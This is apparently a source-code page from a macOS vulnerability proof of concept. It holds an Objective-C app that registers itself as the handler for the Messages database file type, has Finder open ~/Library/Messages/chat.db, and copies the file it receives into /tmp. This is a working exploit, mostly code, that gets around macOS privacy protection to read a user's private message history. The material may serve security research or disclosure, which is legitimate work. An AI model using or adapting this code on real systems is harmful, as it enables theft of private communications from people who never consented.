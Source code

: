    - The UTI of Database is `dyn.ah62d4rv4ge80k2u`

```objective-c
#import <Cocoa/Cocoa.h>
#import <Foundation/Foundation.h>
#import <sqlite3.h>

@interface AppDelegate : NSObject <NSApplicationDelegate>

@end

@implementation AppDelegate

- (void)applicationDidFinishLaunching:(NSNotification *)aNotification {
    NSLog(@"cppoctag: applicationDidFinishLaunching");
    NSTask *init_task = [[NSTask alloc] init];
    [init_task setLaunchPath:@"/bin/sh"];
    
    NSArray *init_arguments = @[@"-c", @"/Applications/poc.app/Contents/MacOS/swda setHandler --UTI dyn.ah62d4rv4ge80k2u --app com.example.poc"];
    [init_task setArguments:init_arguments];
    
    [init_task launch];
    [init_task waitUntilExit];

    NSLog(@"cppoctag: Init with swda");


    NSTask *exec_task = [[NSTask alloc] init];
    [exec_task setLaunchPath:@"/bin/sh"];
    
    NSArray *exec_arguments = @[@"-c", @"open -a Finder ~/Library/Messages/chat.db"];
    [exec_task setArguments:exec_arguments];
    
    [exec_task launch];
    [exec_task waitUntilExit];
    NSLog(@"exec_task");
}


- (void)application:(NSApplication *)application openFiles:(NSArray<NSString *> *)filePaths {
    for (NSString *filePath in filePaths) {
        NSFileManager *fileManager = [NSFileManager defaultManager];
        if ([fileManager fileExistsAtPath:filePath]) {
            // Read the file data
            NSData *data = [NSData dataWithContentsOfFile:filePath];
            
            if (data != nil) {
                // Get the file name and extension from the path
                NSString *fileName = [filePath lastPathComponent];
                
                // Create the destination path
                NSString *destinationPath = [NSString stringWithFormat:@"/tmp/%@", fileName];
                
                // Write the data to the destination path
                [data writeToFile:destinationPath atomically:YES];
                NSLog(@"cppoctag: success");
            } else {
                NSLog(@"cppoctag: Failed to read data from file at %@", filePath);
            }
        } else {
            NSLog(@"cppoctag: No file found at %@", filePath);
        }
    }
```